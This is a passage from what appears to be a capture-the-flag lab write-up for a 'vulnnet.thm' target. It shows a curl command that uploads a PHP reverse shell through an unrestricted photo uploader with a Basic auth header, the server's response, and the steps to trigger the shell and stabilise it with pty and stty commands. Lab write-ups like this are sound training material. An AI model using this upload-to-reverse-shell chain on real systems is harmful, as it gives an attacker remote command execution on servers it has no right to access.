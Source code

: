 
![](Pasted image 20250401162859.png)



Since we can upload files, let's upload a reverse shell, we can use the one at `PentestMonkey` github

Link: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php


Save the file and do the following:

```
curl -F "file=@thm_shell.php" -F "plupload=1" -F "name=thm_shell.php" http://broadcast.vulnnet.thm/actions/photo_uploader.php -H "Authorization: Basic ZGV2ZWxvcGVyczo5OTcyNzYxZHJtZnNscw=="
```

We get this response:

```
{"success":"yes","file_name":"17436166695449b9","extension":"php","file_directory":"2025\/04\/02"}
```


![](Pasted image 20250402125929.png)

We can now visit the following URL:

```
http://broadcast.vulnnet.thm/files/photos/
```

We notice this:

![](Pasted image 20250402130005.png)

There's a directory, if we follow it, we get to this:

![](Pasted image 20250402130032.png)


This is our reverse shell, let's set up our listener and get the connection:

![](Pasted image 20250402130104.png)

Let's proceed to privilege escalation.


# PRIVILEGE ESCALATION
---


Since we got our shell, let's stabilize it:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```
